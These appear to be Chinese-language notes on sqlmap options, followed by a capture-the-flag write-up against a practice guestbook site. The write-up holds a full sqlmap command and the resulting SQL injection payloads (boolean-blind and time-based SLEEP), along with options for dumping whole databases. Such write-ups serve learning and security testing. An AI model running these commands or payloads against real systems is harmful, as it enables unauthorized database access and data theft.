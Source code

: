 ## 指定目標
#### -D DB_NAME
指定猜解的對象資料庫
#### -T Table_NAME
指定猜解的對象資料表
#### -C COLUMN_NAME
指定猜解的對象欄位
#### -U USER_ID
指定猜解的對象資料庫使用者
#### --dump 
傾印出
* 資料庫中的所有資料表中的所有資料(-D)
* 特定資料表中的所有資料(-D -T)

## 暴力猜解選項
--common-tables 利用內建字典檔猜解可能的資料表
--common-columns 利用內建字典檔猜解可能的資料欄位

## 其他選項
#### -v N
掃描過程中的資訊詳細程度 **1 (簡潔) ~ 6(詳細)**
#### --batch
在執行過程中 若需要使用者輸入資訊 一律使用預設值



## write-up
```shell=
python sqlmap.py 
--level=5 --risk=3 
#最詳細執行
--dbms="MySQL" 
#之前的調查已經發現是MySQL
-p "user,password" 
#要測試有沒有漏洞的欄位
--method=POST --data="user=Wildfoot&password=Wildfoot"
#用POST 然後欄位預設的值
-u "https://hackme.inndy.tw/gb/?mod=del&pid=4" 
-v 6 
#最詳細的執行畫面
--user-agent="Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:49.0) Gecko/20100101 Firefox/49.0" 
```
```shell=
Parameter: user (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: user=Wildfoot' OR NOT 8219=8219-- ZGiV&password=Wildfoot
    Vector: OR NOT [INFERENCE]

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind
    Payload: user=Wildfoot' OR SLEEP(5)-- HQoJ&password=Wildfoot
    Vector: OR [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
---
web server operating system: Linux Ubuntu
web application technology: Nginx
back-end DBMS: MySQL >= 5.0.0
Database: guestbook
[3 tables]
```
